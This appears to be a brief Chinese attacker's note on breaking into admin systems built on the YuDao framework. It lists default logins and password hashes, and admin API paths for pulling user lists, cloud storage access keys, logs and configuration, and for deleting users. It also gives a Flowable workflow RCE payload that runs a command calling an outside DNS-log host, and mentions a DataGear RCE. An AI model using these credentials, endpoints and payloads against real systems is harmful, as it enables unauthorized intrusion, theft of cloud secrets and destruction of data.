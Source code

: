 默认账户
admin admin123
test test123
hrmgr hr123


```
test123
bv1BUHrzxj5rXjwSBhwqrfoa8RgrUBK8bldbPKY62k6hkKN0zeOcz0Sztlto66M1G/c2Tz7qWWOHBtMQTdHBPQ==

$2a$10$mRMIYLDtRHlf6.9ipiqH1.Z.bh/R9dO9d5iHiGYPigi6r5KOoR2Wm
默认密钥密码admin123

$2a$04$5Kp7boZ/JfnMRNcSxZ3ItOaRM.Mmkdiyk3xKqNMCxCWMWdBwTY97y
admin1234
```

^
java解析js的RCE，java17如果默认不支持解析js。
<https://www.freebuf.com/articles/web/362360.html>
工作流：<https://blog.thatcoder.cn/wiki/YuDaoCloud/%E5%B7%A5%E4%BD%9C%E6%B5%81%E6%89%8B%E5%86%8C/%E5%B7%A5%E4%BD%9C%E6%B5%81%EF%BC%88Flowable%EF%BC%89%E4%BC%9A%E7%AD%BE%E3%80%81%E6%88%96%E7%AD%BE/%E5%B7%A5%E4%BD%9C%E6%B5%81%EF%BC%88Flowable%EF%BC%89%E4%BC%9A%E7%AD%BE%E3%80%81%E6%88%96%E7%AD%BE.html>

```
用户
/admin-api/system/user/page
/prod-api/admin-api/system/user/page



/infra/data-source-config
可能前后端分离


存储桶，存储位置，aksk
/admin-api/infra/file-config/page

数据源,无敏感信息
/admin-api/infra/data-source-config/list
/admin-api/infra/data-source-config/create

初始配置
/admin-api/infra/config/page
字典
/admin-api/system/dict-type/page



日志
/admin-api/infra/api-access-log/page
/admin-api/infra/api-error-log/page
操作日志，无用
/admin-api/system/dict/data/list-all-simple




删用户，最好delete方法
/admin-api/system/user/delete?id=4




工作流
/manager/model/list
/manager/model/edit
java.lang.Runtime.getRuntime().exec("ping hng2al.dnslog.cn");
```



^
## **jdbc**
DataGear全版本RCE

